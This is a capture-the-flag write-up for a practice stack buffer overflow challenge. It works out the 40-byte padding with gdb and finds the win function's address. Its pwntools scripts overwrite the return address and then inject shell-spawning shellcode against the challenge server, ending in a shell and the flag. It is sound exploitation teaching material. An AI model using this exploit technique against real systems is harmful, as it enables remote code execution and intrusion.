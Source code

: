 # pwn_review
A simple review challenge.  Let's see how it goes :3

So running the binary, we get some info:
```
This is a review challenge, you know the drill
Return to the win function and get the flag
gimme win function
```
Ok, so we need to return to the win function.  My guess is that this program is going to be susceptible to a buffer overflow.  Turns out it is!  After screaming at it for a bit, I was able to determine the buffer was 32 bytes, so our padding will be 40 bytes.

```
gdb-peda$ r
Starting program: /home/perchik/CTF/osuleague/week4/pwn_review
This is a review challenge, you know the drill
Return to the win function and get the flag
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBBBBBB

Program received signal SIGSEGV, Segmentation fault.
```
Sweet, we crashed, and if we look at RBP, we can see we have overwritten it with our Bs. `RBP: 0x4242424242424242 ('BBBBBBBB')`
That means whatever comes next will overwrite the instruction pointer, so we can return to wherever we want!

So let's actually find the address we want to return to.  We can use `objdump -d pwnreview | grep win` to find the location of the win function.
`0000000000400577 <win>:`

Great. So we know our padding will be 40 bytes, and we have the address.  So let's put what we have together so far in python:

```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)
payload = padding + win

log.info(payload)

io.sendline(payload)
io.interactive()
```
And running it we get:
```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode
This is a review challenge, you know the drill
Return to the win function and get the flag
nice! I'll execute any shellcode you give me now
$ booop?
[*] Got EOF while reading in interactive
$
$
[*] Closed connection to ctf.ropcity.com port 31337
[*] Got EOF while sending in interactive
```

Hmm, looks like we aren't done quite yet.  We are give a prompt to enter some shell code.  So let's add a few more lines to our exploit that will spawn a shell for us.
```python
from pwn import *
import os, sys
#io = process('./pwn_review')
io = remote('ctf.ropcity.com', 31337)

context(arch = "amd64")

padding = b"A"*40
win = p64(0x400577)

shell = shellcraft.sh() #Pwntools shellcraft OP
shellcode = asm(shell)

payload = padding + win
log.info(payload)

io.sendline(payload)

io.recvuntil("you give me now")

io.sendline(shellcode)
io.interactive()
```

And running it we get a shell!:

```
[+] Opening connection to ctf.ropcity.com on port 31337: Done
[*] AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAw\x05@\x00\x00\x00\x00\x00
[*] Switching to interactive mode

$ ls
flag
pwn_review
$ cat flag
osu{pwnt00ls_i$_Ch3A7iNG}
```

This was a pretty sick review covering the stuff we have learned so far! GG
